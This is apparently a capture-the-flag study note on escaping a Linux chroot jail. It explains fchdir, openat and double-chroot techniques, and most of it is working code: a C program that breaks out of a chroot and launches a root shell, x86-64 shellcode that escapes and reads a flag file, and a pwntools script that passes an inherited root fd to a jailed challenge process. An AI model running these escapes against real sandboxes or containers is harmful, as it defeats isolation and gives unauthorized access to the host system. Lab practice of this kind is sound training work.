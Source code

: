# Escaping with fchdir

If there is an open fd for a dir that was opened before the chroot then u can use fchdir to change your dir to that one in the fd

Note: If u have an opened dir fd and can't use fchdir u can use openat if it's available

# Escaping with chroot

If you are root inside a chroot you can escape creating another chroot. This because 2 chroots cannot coexists (in Linux), so if you create a folder and then create a new chroot on that new folder being you outside of it, you will now be outside of the new chroot and therefore you will be in the FS.

This occurs because usually chroot DOESN'T move your working directory to the indicated one, so you can create a chroot but e outside of it.

```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void) {
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

```asm
    mov rax, 0x72696474
    mov rdi, 0x1337500
    mov [rdi], rax

    mov rax, 83
    mov rsi, 0x1c0
    syscall

    mov rax, 161        
    syscall

    mov r9, 0x0
change:
    add r9, 0x1
    mov rax, 80
    mov rdi, 0x1337550
    mov r8, 0x2e2e
    mov [rdi], r8
    xor r8, r8
    syscall
    cmp r9, 0x5
    jne change

    mov rdi, 0x1337551
    mov rax, 161
    syscall

    mov rax, 0x67616c662f
    mov rdi, 0x1337600
    mov [rdi], rax

    mov rax, 0x2
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rsi, 0x1337900
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rax, 0x1
    mov rdi, 0x1
    syscall

```

# Inhert an fd from the parent

You can open a dir from the parent and inhert the fd to the child inside chroot, then use that fd with openat to open a file outside the chroot.

```python
#!/usr/bin/python3
from pwn import *

context.arch = "amd64"

fd = os.open('/', os.O_RDONLY)
os.set_inheritable(fd, True)

log.info("root fd is: {}".format(fd))

CODE = """
    SHELLCODE
"""
shellcode = asm(CODE)  # Example shellcode

# Start the process to be debugged
p = process(['/challenge/babyjail_level8', ''], close_fds=False)

input("send")

# Attach GDB
# Send the shellcode to stdin
p.send(shellcode)

# Interact with the process (if needed)
p.interactive()
```
